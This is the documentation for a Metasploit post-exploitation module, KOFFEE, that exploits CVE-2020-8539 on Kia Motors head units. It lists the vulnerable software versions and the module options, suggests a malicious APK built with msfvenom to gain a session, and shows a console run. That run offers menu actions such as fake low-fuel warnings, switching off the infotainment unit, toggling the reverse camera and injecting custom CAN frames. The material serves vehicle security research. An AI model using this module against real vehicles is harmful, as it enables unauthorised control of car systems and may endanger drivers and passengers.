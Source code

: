 ## Vulnerable Application

KOFFEE exploits the CVE-2020-8539, which is an Arbitrary Code Execution vulnerabilty that allows a user to execute the micomd binary with valid payloads on Kia Motors Head Units. 
By using KOFFEE an attacker can send crafted micomd commands to control the head unit and send CAN bus frames into the Multimedia CAN (M-Can) of the vehicle.

### Vulnerable Head Unit software versions
- SOP.003.30.180703
- SOP.005.7.181019
- SOP.007.1.191209

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use post/android/local/koffee`
- [ ] `set session 1`
- [ ] `run`

### What do you need
* An active session with the Head Unit

## Options
- MICOMD: it contains the path to micomd executable
- NUM_MSG: it expresses the number of MICOM commands sent each time
- PERIOD: it indicates the time (ms) interval between two MICOM commands, aka Period of CAN frames
- SESSION: it referes to the metasploit session number on which this module is run.

## Scenarios
KOFFEE can be run as post-exploitation module when an active session is available with the Head Unit (HU). First, an attacker may create a malicious apk to generate a remote connection with the HU. For instace, using msfvenom or other tools, an attacker can create the malicious apk that, once installed in the HU, starts an active session. 
At this point, the attacker is able to use the KOFFEE exploit to take control of the HU and inject CAN bus frames into the M-CAN bus of the vehicle.


### Usage

```bach
msf6 > use post/android/local/koffee
msf6 post(android/local/koffee) > set session 1
session => 1
msf6 post(android/local/koffee) > run

[*]  
[*]            `:+ydmNMMNmhs:
         .odMMMMMMMMMMMMMMm`
       /dM MMMMMMM MMMMMMM: o`
     /mMMM MMMMMM MMMMMMm-`yMs
   .dMMMMM MMMMM MMMMMm+ :mMMN
  :NMMMMMM MMMM MMMMh/ :hMMMMN
 /MMMMMMMM MMM Mmy/`.omMMMMMMy
.NMMMMMMMM my+:`./smMMMMMMMMN.
yMMMMMMNy/ `/shNMMMMMMMMMMMM/
NMMMMd/`-s MM MMMMMMMMMMMMN:
NMMd- +mMM MMM MMMMMMMMMMd.
sMo :mMMMM MMMM MMMMMMMm/
`/ oMMMMMM MMMMM MMMMd/
  .NMMMMMM MMMMMM do.
    :shmNMMNmdy+:`        
[*]  
[*]  -- Welcome, would you like a KOFFEE? --
[*]  
[*] Make your choice:
     1. Mute/unmute radio
     2. Reduce radio volume
     3. Radio volume at maximum
     4. Low screen brightness
     5. High screen brightness
     6. Low fuel warning message
     7. Navigation full screen
     8. Set navigation address
     9. Seek down
     10. Seek Up
     11. Switch off Infotainment
     12. Switch On Infotainment
     13. Camera Reverse On
     14. Camera Reverse Off
     15. Inject pre-crafted CAN frames into MM bus
     16. Inject custom command
     0. Exit
Koffee > 1
[*]  -- Sending Command -- 
...
Koffee > 0
[*] Post module execution completed
```
